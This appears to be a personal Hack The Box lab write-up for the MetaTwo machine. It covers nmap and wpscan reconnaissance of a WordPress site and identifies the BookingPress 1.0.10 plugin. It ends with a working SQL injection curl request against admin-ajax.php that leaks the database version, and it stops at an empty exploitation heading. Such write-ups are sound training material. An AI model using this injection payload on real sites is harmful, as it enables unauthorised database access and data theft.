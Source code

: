 # HTB -  MetaTWO
# IP: 10.10.11.186
# Start: 26/02/23

## Info gathering

### Nmap

#### metatwo.htb
```
nmap -sV -sC metatwo.htb- Pn                                                                                                                                                                 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-26 12:06 GMT
Nmap scan report for metatwo.htb (10.10.11.186)
Host is up (0.012s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
| fingerprint-strings: 
|   GenericLines: 
|     220 ProFTPD Server (Debian) [::ffff:10.10.11.186]
|     Invalid command: try being more creative
|_    Invalid command: try being more creative
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c4b44617d2102d8fec1dc927fecd79ee (RSA)
|   256 2aea2fcb23e8c529409cab866dcd4411 (ECDSA)
|_  256 fd78c0b0e22016fa050debd83f12a4ab (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.93%I=7%D=2/26%Time=63FB4B3D%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,8F,"220\x20ProFTPD\x20Server\x20\(Debian\)\x20\[::ffff:10\.10\
SF:.11\.186\]\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20cre
SF:ative\r\n500\x20Invalid\x20command:\x20try\x20being\x20more\x20creative
SF:\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Interesting:
- FTP port (proFTP)
- webserver redirects to metapress.htb

#### metapress.htb

same as previous run aside from http site
```
80/tcp open  http    nginx 1.18.0
| http-robots.txt: 1 disallowed entry 
|_/wp-admin/
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-generator: WordPress 5.6.2
|_http-trane-info: Problem with XML parsing of /evox/about
|_http-server-header: nginx/1.18.0
|_http-title: MetaPress &#8211; Official company site
```
Interesting:
- Wordpress site
- robots.txt tells us of an interesting folder
- sessionid can be read by scripts, potentially allowing token stealing
- path /evox/about may be valid

### Web access

#### http://metapress.htb/ mirrors http://metapress.htb/hello-world

Basic under construction page

interesting links:
- http://metapress.htb/wp-json/
- http://metapress.htb/xmlrpc.php?rsd
- http://metapress.htb/wp-includes/wlwmanifest.xml


#### http://metapress.htb/events

Event form with fillable fields

Interesting:
- POST /wp-admin/admin-ajax.php filling out form (wordpress plugin most likely)

#### http://metapress.htb/about-us/

Under construction about page

Interesting:
- Search button -> http://metapress.htb/?s=

#### Other pages:

These were found by performing an empty search on the /?s page

- http://metapress.htb/cancel-payment/
- http://metapress.htb/cancel-appointment/
- http://metapress.htb/sample-page/ (link to http://metapress.htb/wp-admin/)
- http://metapress.htb/thank-you/ (calls to /wp-content/plugins/bookingpress-appointment-booking)

#### Next steps

ok so it's a wordpress site, that much is clear.
I know about potentially brute forcing through xmlrpc.php, but first i'd like some more info, so i'll use wpscan.

```
wpscan --url http://metapress.htb -e vp,vt --plugins-detection mixed  

[+] WordPress version 5.6.2 identified (Insecure, released on 2021-02-22).
[+] WordPress theme in use: twentytwentyone
 | Location: http://metapress.htb/wp-content/themes/twentytwentyone/
 | Last Updated: 2022-11-02T00:00:00.000Z
 | Readme: http://metapress.htb/wp-content/themes/twentytwentyone/readme.txt
 | [!] The version is out of date, the latest version is 1.7
```
these are interesting but after checking they don't offer any vulnerabilities in the way of unautorized access.

i dont have a wpscan account, but we know of at least one plugin used (bookingpress), and it turns out that there is an SQL injection avaliable for a certain version, so lets check the version.

Without having wpscan for this, i searched pages for links to http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking and came across many links that looked like `<link rel='stylesheet' id='bookingpress_fonts_css-css'  href='http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/fonts/fonts.css?ver=1.0.10' media='all' />`

ver=1.0.10 which is within the bounds of the vulnerability! < 10.0.11
https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357

This page also gives a PoC
it seems that with a nonce generated by the booking plugin you can access the action "bookingpress_front_get_catagory_services", along with providing the nonce, a "category id", and a value for "total service", within this last value, entering a ')' character will escape some string which is directly used in an SQL statement.

So lets craft a payload!

```
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' -data 'action=bookingpress_front_get_category_services&_wpnonce=5c87274b9d&category_id=1&total_service=1) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```

```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sun, 26 Feb 2023 13:59:39 GMT
Content-Type: text/html; charset=UTF-8
Transfer-Encoding: chunked
Connection: keep-alive
X-Powered-By: PHP/8.0.24
X-Robots-Tag: noindex
X-Content-Type-Options: nosniff
Expires: Wed, 11 Jan 1984 05:00:00 GMT
Cache-Control: no-cache, must-revalidate, max-age=0
X-Frame-Options: SAMEORIGIN
Referrer-Policy: strict-origin-when-cross-origin

[{"bookingpress_service_id":"1","bookingpress_category_id":"1","bookingpress_service_name":"Startup meeting","bookingpress_service_price":"$0.00","bookingpress_service_duration_val":"30","bookingpress_service_duration_unit":"m","bookingpress_service_description":"Join us, we will celebrate our startup!","bookingpress_service_position":"0","bookingpress_servicedate_created":"2022-06-23 18:02:38","service_price_without_currency":0,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"},{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http:\/\/metapress.htb\/wp-content\/plugins\/bookingpress-appointment-booking\/images\/placeholder-img.jpg"}]% 
```

SQL INJECTION! We see `{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu"` 
I've been looking at hackerone recently, this would be the point where i would report this to the company.

But i'm in the role of the threat now so on we go!

## Exploitation

